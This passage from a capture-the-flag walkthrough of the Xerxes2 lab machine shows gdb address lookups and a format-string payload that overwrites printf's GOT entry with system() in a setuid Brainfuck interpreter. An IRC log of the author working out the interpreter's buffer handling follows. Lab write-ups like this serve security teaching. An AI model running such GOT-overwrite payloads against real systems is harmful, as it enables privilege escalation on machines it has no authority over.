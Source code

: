 
printf is at 08049a48. Now I have to find system(). gdb can help with that.


``` bash

delacroix@xerxes2:~$ gdb /opt/bf
GNU gdb (GDB) 7.4.1-debian
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/bf...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048687
(gdb) run
Starting program: /opt/bf 

Breakpoint 1, 0x08048687 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x40062000 <system>
(gdb) p printf
$2 = {<text variable, no debug info>} 0x4006ff50 <printf>

```


I need to overwrite 0x08049a48 with 0x40062000 - that shouldn't be too hard. I really only need to change the last 2 bytes from ff50 to 2000, which means I can do this with just one write. After lots of debugging I ended up at the following


``` bash

echo $(python -c "print '\x48\x9a\x04\x08'")%8186u%16\$hn | /opt/bf ',>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,##'
```


I have many conversations with people on IRC, where I like to think aloud with people I talk to on a regular basis. c0ne helped me with the formatstr on Hell, so it was natural I'd talk to him


``` bash
[23:16:17]  <recrudesce>	delacroix@xerxes2:~$ echo "ABCD" | ./b ",>#"
[23:16:19]  <recrudesce>	returns A
[23:16:24]  <recrudesce>	echo "ABCD" | ./b ",><,>#" returns B
[23:16:30]  <recrudesce>	echo "ABCD" | ./b ",><,><,#" = C
[23:16:36]  <recrudesce>	echo "ABCD" | ./b ",><,><,><,#" = D
[23:16:38]  <recrudesce>	so...
[23:16:41]  <c0ne>	i get
[23:16:49]  <c0ne>	so it needs placeholder to print to
[23:16:56]  <c0ne>	placeholders
[23:17:06]  <c0ne>	,><,><,><,
[23:17:13]  <c0ne>	not sure how it works
[23:18:09]  <recrudesce>	echo "ABCDE" | ./b ",>,>,>,#<,<<<,>#"
[23:18:13]  <recrudesce>	ABCDABED
[23:18:55]  <recrudesce>	echo "ABCDWXYZ" | ./b ",>,>,>,#<<<,>,>,>,#"
[23:19:18]  <recrudesce>	ook, so that reads ABCD into the buffer, then prints it, goes back to the start of the buffer, and reads the next 4 characters, WXYZ
[23:19:20]  <recrudesce>	then prints that
[23:19:37]  <recrudesce>	so, all we need to do is go back to a few pointers, and re-read some further data in
[23:20:08]  <c0ne>	Oo
```